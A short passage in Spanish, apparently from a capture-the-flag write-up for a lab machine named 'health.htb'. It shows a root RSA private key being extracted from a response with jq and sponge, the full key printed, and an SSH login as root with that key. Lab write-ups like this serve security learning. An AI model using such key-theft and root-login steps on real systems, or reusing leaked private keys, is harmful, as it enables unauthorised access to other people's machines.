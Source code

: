 ```null
```

Y finalmente obtienes la id_rsa

```null
cat id_rsa | jq .body -r | sponge id_rsa
-----BEGIN RSA PRIVATE KEY-----
MIIEowIBAAKCAQEAwddD+eMlmkBmuU77LB0LfuVNJMam9/jG5NPqc2TfW4Nlj9gE
KScDJTrF0vXYnIy4yUwM4/2M31zkuVI007ukvWVRFhRYjwoEPJQUjY2s6B0ykCzq
IMFxjreovi1DatoMASTI9Dlm85mdL+rBIjJwfp+Via7ZgoxGaFr0pr8xnNePuHH/
KuigjMqEn0k6C3EoiBGmEerr1BNKDBHNvdL/XP1hN4B7egzjcV8Rphj6XRE3bhgH
7so4Xp3Nbro7H7IwIkTvhgy61bSUIWrTdqKP3KPKxua+TqUqyWGNksmK7bYvzhh8
W6KAhfnHTO+ppIVqzmam4qbsfisDjJgs6ZwHiQIDAQABAoIBAEQ8IOOwQCZikUae
NPC8cLWExnkxrMkRvAIFTzy7v5yZToEqS5yo7QSIAedXP58sMkg6Czeeo55lNua9
t3bpUP6S0c5x7xK7Ne6VOf7yZnF3BbuW8/v/3Jeesznu+RJ+G0ezyUGfi0wpQRoD
C2WcV9lbF+rVsB+yfX5ytjiUiURqR8G8wRYI/GpGyaCnyHmb6gLQg6Kj+xnxw6Dl
hnqFXpOWB771WnW9yH7/IU9Z41t5tMXtYwj0pscZ5+XzzhgXw1y1x/LUyan++D+8
efiWCNS3yeM1ehMgGW9SFE+VMVDPM6CIJXNx1YPoQBRYYT0lwqOD1UkiFwDbOVB2
1bLlZQECgYEA9iT13rdKQ/zMO6wuqWWB2GiQ47EqpvG8Ejm0qhcJivJbZCxV2kAj
nVhtw6NRFZ1Gfu21kPTCUTK34iX/p/doSsAzWRJFqqwrf36LS56OaSoeYgSFhjn3
sqW7LTBXGuy0vvyeiKVJsNVNhNOcTKM5LY5NJ2+mOaryB2Y3aUaSKdECgYEAyZou
fEG0e7rm3z++bZE5YFaaaOdhSNXbwuZkP4DtQzm78Jq5ErBD+a1af2hpuCt7+d1q
0ipOCXDSsEYL9Q2i1KqPxYopmJNvWxeaHPiuPvJA5Ea5wZV8WWhuspH3657nx8ZQ
zkbVWX3JRDh4vdFOBGB/ImdyamXURQ72Xhr7ODkCgYAOYn6T83Y9nup4mkln0OzT
rti41cO+WeY50nGCdzIxkpRQuF6UEKeELITNqB+2+agDBvVTcVph0Gr6pmnYcRcB
N1ZI4E59+O3Z15VgZ/W+o51+8PC0tXKKWDEmJOsSQb8WYkEJj09NLEoJdyxtNiTD
SsurgFTgjeLzF8ApQNyN4QKBgGBO854QlXP2WYyVGxekpNBNDv7GakctQwrcnU9o
++99iTbr8zXmVtLT6cOr0bVVsKgxCnLUGuuPplbnX5b1qLAHux8XXb+xzySpJcpp
UnRnrnBfCSZdj0X3CcrsyI8bHoblSn0AgbN6z8dzYtrrPmYA4ztAR/xkIP/Mog1a
vmChAoGBAKcW+e5kDO1OekLdfvqYM5sHcA2le5KKsDzzsmboGEA4ULKjwnOXqJEU
6dDHn+VY+LXGCv24IgDN6S78PlcB5acrg6m7OwDyPvXqGrNjvTDEY94BeC/cQbPm
QeA60hw935eFZvx1Fn+mTaFvYZFMRMpmERTWOBZ53GTHjSZQoS3G
-----END RSA PRIVATE KEY-----

chmod 600 id_rsa

ssh root@health.htb -i id_rsa

```
